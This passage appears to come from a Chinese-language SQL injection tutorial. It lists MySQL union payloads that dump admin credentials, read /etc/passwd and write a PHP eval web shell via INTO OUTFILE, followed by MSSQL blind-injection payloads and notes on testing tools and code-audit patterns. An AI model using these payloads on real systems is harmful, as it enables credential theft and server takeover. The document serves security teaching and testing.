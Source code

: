 #查询admin表下的用户名密码  
192.168.192.128/sqltest/news.php?id=-1 union select 1,2,group_concat(name,0x5e,pass) from admin  
#读取系统文件（/etc/passwd，需转换为16进制）  
192.168.192.128/sqltest/news.php?id=-1 union select 1,2,load_file(0x2f6574632f706173737764)  
#文件写入  
192.168.192.128/sqltest/news.php?id=-1 union select 1,2,0x3c3f70687020a6576616c28245f504f53545b615d293ba3f3e into outfile '/var/www/html/1.php'--  
_PS：若权限不足，换个目录_ |
| MSSQL | _PS：回显型请查阅参考资料的链接，这里主要盲注的语法。_  
#爆数据库版本（可先测长度）  
aspx?c=c1'/**/and/**/ascii(substring(@@version,1,1))=67/**/--&t=0  
ps:在范围界定时，可利用二分查找结合大于小于来利用；亦可直接赋值脚本爆破，依次类推直至最后一字母。  
#爆当前数据库名字  
aspx?c=c1'/**/and/**/ascii(substring(db_name(),1,1))>200/**/--&t=0  
#爆表  
aspx?c=c1'/**/and/**/ascii(substring((select/**/top/**/1 name/**/from/**/dbname.sys.all_objects where type='U'/**/AND/**/is_ms_shipped=0),1,1))>0/**/--&t=0  
#爆user表内字段  
aspx?c=c1'/**/and/**/ascii(substring((select/**/top/**/ 1/**/COLUMN_NAME from/**/dbname.information_schema.columns/**/where/** /TABLE_NAME='user'),1,1))>0/**/--&t=0  
#爆数据  
aspx?c=c1'/**/and/**/ascii(substring((select/**/top/**/1/**/fPwd/**/from/**/User),1,1))>0/**/--&t=0 |

_PS:关于注入绕过（bypass），内容偏多、过细，本次暂不归纳。单独一篇_

0x05 漏洞挖掘
=====

### 5.1 黑盒测试

套装组合

1.  AWVS类 + sqlmap （手工）
2.  Burp + sqlmapAPI（手工）

![p5](http://drops.javaweb.org/uploads/images/458fa738d88158d8c8f22eba6ebfcf10a59950fc.jpg)

减少体力活的工程化

*   [Sqli-hunter](http://zone.wooyun.org/content/21289)
*   [GourdScan](http://zone.wooyun.org/content/24172)

### 5.2 代码审计

白盒的方式有两种流，一种是检查所有输入，另一种是根据危险函数反向

[注入引发的特征点及敏感函数](https://www.91ri.org/15074.html)

| NO. | 概要 |
| --- | --- |
| 1 | $_SERVER未转义 |
| 2 | 更新时未重构更新序列 |
| 3 | 使用了一个未定义的常量 |
| 4 | PHP自编标签与strip_tags顺序逻辑绕过 |
| 5 | 可控变量进入双引号 |
| 6 | 宽字节转编码过程 |
| 7 | mysql多表查询绕过 |
| 8 | 别名as+反引号可闭合其后语句 |
| 9 | mysql的类型强制转换 |